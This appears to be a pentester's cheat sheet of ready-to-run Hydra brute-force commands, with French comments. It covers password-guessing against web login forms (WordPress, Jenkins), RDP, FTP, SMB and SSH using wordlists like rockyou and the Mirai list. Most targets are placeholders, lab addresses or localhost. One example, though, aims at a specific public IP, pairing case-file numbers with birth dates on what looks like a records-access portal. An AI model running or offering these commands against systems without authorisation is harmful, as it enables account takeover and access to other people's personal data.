 # Hydra

## Web

hydra -l login -P ./dico.txt IP http-post-form "/page/login.html?lan=fr:parametre1=^USER^&parametre2=^PASS^:F=indique que failed"

hydra -l <username> -P .<password list> $ip -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location'

### exemple: hydra -s 443 -l [Numero_dossier] -p [Date_de_naissance] 46.218.155.4 https-post-form
"/acces_dossier/acces_dossier.php:accession_number=^USER^&date_naissance=^PASS^&use_sessio
n=1&largeur_ecran=1920&hauteur_ecran=922&saveDevice=Web:Erreur"

### exemple2:
hydra -l admin -P ../rockyou.txt -s 8080 127.0.0.1 http-post-form '/j_acegi_security_check:j_username=admin&j_password=^PASS^&from=%2F&Submit=Sign+in:F=Invalid'

## variante Web: burp, ffuf

## rdp

hydra -t 1 -V -f -l <username> -P <wordlist> rdp://<ip>

## ftp

hydra -t 1 -v -L ./Dico.txt -P ./Dico.txt ftp://10.10.10.158

## smb:

hydra -v -L ./Dico.txt -P ./Dico.txt 10.10.10.158 smb

### SSH

hydra -l user -P pass.txt -t 10 10.10.10.10 ssh -s 22

hydra -l root -P /usr/share/wordlists/metasploit/mirai_pass.txt ssh://127.0.0.1:2222
